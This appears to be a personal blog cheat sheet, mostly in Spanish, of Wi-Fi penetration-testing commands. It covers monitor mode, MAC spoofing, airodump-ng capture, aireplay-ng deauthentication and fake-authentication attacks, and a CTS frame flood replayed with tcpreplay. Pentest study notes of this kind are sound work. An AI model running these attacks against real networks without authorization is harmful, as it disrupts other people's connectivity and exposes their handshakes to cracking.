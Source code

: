 ```yaml
---
layout: single
title: Wifi Pentest
date: 2021-08-31
classes: wide
header:
  teaser: /assets/images/security.jpg
categories:
  - Blue Team
  - infosec
tags:
  - Blue Team
  - Red Team
---
```


## Monitor
https://www.acrylicwifi.com/blog/modo-monitor-wifi/

Enable

```
sudo airmon-ng start wlx00c

pkill dhclient && pkill wpa_supplicant

iw config 

sudo ifconfig wlan1mon up

```

## restart network

```
/etc/init.d/networking restart
```


## MAC address spoofing

https://wiki.archlinux.org/title/MAC_address_spoofing_(Espa%C3%B1ol)

```
macchanger -l | grep -i "apple"

sudo macchanger --mac=00:20:91:ad:fa:91 wlan1mon
```

https://es.wikipedia.org/wiki/Aircrack-ng#:~:text=Aircrack%2Dng%20es%20una%20suite,airbase%2Dng

```
sudo airodump-ng wlan1mon
```
https://yisux.wordpress.com/2009/03/11/aircrack-ng-comandos-basicos-para-ataques-con-clientes-asociados/

https://www.aircrack-ng.org/~~V:/doku.php?id=es:airodump-ng#:~:text=Airodump%2Dng%20se%20usa%20para,y%20obtener%20la%20clave%20WEP.

## Specific channel

```
airodump-ng -c 1 wlan1mon
```

## Filter

```
airodump-ng -c 3 --essid AndroidAP7739 wlan1mon
--bssid
```

## Export data

```
airodump-ng -c 3 -w Captura --essid AndroidAP7739 wlan1mon
```

## Handshake

https://hacking-etico.com/2013/05/08/redes-wifi-con-wpawpa2inviolables/#:~:text=El%20handshake%20es%2C%20a%20grosso,la%20contrase%C3%B1a%20WiFi%20pero%20cifrada.

## Desautenticación 
https://www.google.com/search?q=Ataque+de+de-autenticaci%C3%B3n+aireplay&rlz=1C1GCEA_enES868ES868&oq=Ataque+de+de-autenticaci%C3%B3n+aireplay&aqs=chrome..69i57j33i160.5751j0j7&sourceid=chrome&ie=UTF-8
https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack
Drigido 
```
aireplay-ng -0 10 -e AndroidAP7739 -c MACCLIENTE wlan1mon
```

Global
```
aireplay-ng -0 10 -e AndroidAP7739 -c FF:FF:FF:FF:FF:FF wlan1mon
aireplay-ng -0 10 -e AndroidAP7739  wlan1mon
```

##  Autenticación falsa

https://www.aircrack-ng.org/doku.php?id=es:shared_key

```
aireplay-ng -1 0 -e AndroidAP7739 -a MACCLIENT -h FALSAMAC wlan1mon
```

## CTS Frame Attack

```
tshark -r captura-01.cap -Y "wlan.fc.type_subtype==28" 2>/dev/null # CHECK CTS
tshark -r captura-01.cap -Y "wlan.fc.type_subtype==28" -Tjson 2>/dev/null # CHECK CTS
tshark -r captura-01.cap -Y "wlan.fc.type_subtype==28" -Tfields -e wlan.duration 2>/dev/null # CHECK CTS

wireshark captura-01.cap > /dev/null 2>&1 &
disown

```

Change HEX BEFORE LAST 10 ADD 30 AND THE NUMBER

```
ghex captura.cap

```

```
tcpreplay --intf1=wlan0mon --topspeed --loop=2000 prueba.cap 2>/dev/null
```
